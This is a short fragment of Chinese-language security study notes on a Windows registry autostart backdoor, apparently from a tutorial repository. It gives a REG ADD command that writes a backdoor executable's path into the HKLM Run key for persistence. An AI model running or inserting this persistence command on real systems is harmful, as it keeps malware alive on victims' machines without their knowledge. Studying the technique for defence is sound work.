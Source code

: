   ![Alt text](../../cyber_security/images/image107.png)

- 注册表自启动后门
  - 方法1：
  - 注册表位置；HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  - 添加键test1,值为后门程序路径
  ```
  REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\Users\Administrator\Desktop\7764.exe"
  ```